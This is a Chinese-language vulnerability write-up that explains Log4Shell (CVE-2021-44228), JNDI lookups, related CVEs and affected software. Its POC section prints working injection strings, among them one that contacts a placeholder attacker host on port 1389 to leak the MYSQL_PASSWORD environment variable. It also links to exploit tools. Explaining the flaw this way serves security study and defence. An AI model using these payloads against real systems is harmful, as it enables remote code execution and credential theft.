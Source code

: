 +++
title = 'Log4Shell 漏洞'
date = 2024-05-31T16:04:27+08:00
draft = false
categories = ['漏洞研究']
tags = ['漏洞原理', 'Java', 'Log4j','框架漏洞']
+++

## 前置知识

|术语|描述|
|---|---|
|Log4j|存在漏洞的 Java 库|
|JndiLookup|Log4j 中的漏洞部分|
|Log4Shell|为攻击此漏洞而开发的 exploit|

### Lookup

Lookups 为在 Log4j 配置的任意位置添加值提供了一种方法。它们是实现 StrLookup 接口的一种特殊插件类型。

> [Log4j - Log4j 2 Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)
>
> [Log4j2 研究之lookup](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247485584&idx=1&sn=2fad11942986807ea7545f7b8b5d6af8)

### JNDI

JNDI(Java Naming and Directory Interface,Java命名和目录接口)是SUN公司提供的一种标准的Java命名系统接口，JNDI提供统一的客户端API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。目录服务是命名服务的一种自然扩展。

JNDI(Java Naming and Directory Interface)是一个应用程序设计的API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，类似JDBC都是构建在抽象层上。现在JNDI已经成为J2EE的标准之一，所有的J2EE容器都必须提供一个JNDI的服务。

JNDI可访问的现有的目录及服务有：
DNS、XNam 、Novell目录服务、LDAP(Lightweight Directory Access Protocol轻型目录访问协议)、 CORBA对象服务、文件系统、Windows XP/2000/NT/Me/9x的注册表、RMI、DSML v1&v2、NIS。

> [Java安全之JNDI注入](https://www.cnblogs.com/nice0e3/p/13958047.html)
>
> [JNDI到底是什么？](https://blog.csdn.net/wn084/article/details/80729230)
>
> [深入理解JNDI注入与Java反序列化漏洞利用](https://kingx.me/Exploit-Java-Deserialization-with-RMI.html)

### 相关 CVE

| CVE编号 | 漏洞类型 | 受影响的Log4j版本 | 默认配置下可被利用 |
| --- | --- | --- | --- |
| CVE-2021-44228 | 远程代码执行(RCE) | 2.0至2.14.1 | 是 |
| CVE-2021-45046 | 拒绝服务(DoS)和远程代码执行(RCE) | 2.0至2.15.0 | 否 |
| CVE-2021-4104 | 远程代码执行(RCE) | 1.2* | 否 |
| CVE-2021-45105 | 拒绝服务(DoS) | 2.0-beta9至2.16.0 | 否 |
| CVE-2021-44832 | 远程代码执行(RCE) | 2.0-beta7至2.17.0（不包括安全修复版本2.3.2和2.12.4） | 否 |

> <https://github.com/pentesterland/Log4Shell>

## 远程命令执行漏洞 CVE-2021-44228（Log4Shell）

### 受影响版本

- Apache Log4j 2.x<=2.14.1

### 受影响组件

- Spring-Boot-strater-log4j2
- Apache Struts2
- Apache Solr
- Apache Flink
- Apache Druid
- ElasticSearch
- Flume
- Dubbo
- Redis
- Logstash
- Kafka
- VMvare

### 漏洞说明

> [史上最全 log4j2 远程命令执行漏洞汇总报告](https://cloud.tencent.com/developer/article/1919456)

日志在打印时当遇到 `${` 后，Interpolator 类以 `:` 号作为分割，将表达式内容分割成两部分，前面部分作为 prefix，后面部分作为 key。然后通过 prefix 去找对应的 lookup，通过对应的 lookup 实例调用 lookup 方法，最后将 key 作为参数带入执行。

主要使用 ldap 来构造 payload：

```txt
${jndi:ldap://xxx.xxx.xxx.xxx/exp}
```

最终效果就是通过 jndi 注入，借助 ldap 服务来下载执行恶意 payload，从而执行命令，整个利用流程如图：

![20240531153822](https://gh.iinx.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240531153822.png)

整个利用流程分两步：

第一步：向目标发送指定 payload，目标对 payload 进行解析执行，然后会通过 ldap 链接远程服务，当 ldap 服务收到请求之后，将请求进行重定向到恶意 java class 的地址。

第二步：目标服务器收到重定向请求之后，下载恶意 class 并执行其中的代码，从而执行系统命令。

### POC

DNSLog

```txt
${jndi:ldap://xxx.dnslog.cn/exp}
```

嵌套语法获取环境变量

```txt
${jndi:ldap://www.attacker.com:1389/${env:MYSQL_PASSWORD}}
```

### EXP

- Burpsuite 插件：[Log4Shell Everywhere](https://portswigger.net/bappstore/186be35f6e0d418eb1f6ecf1cc66a74d)
- [Apache Log4j Remote Code Execution](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)

### 流量特征

见 POC
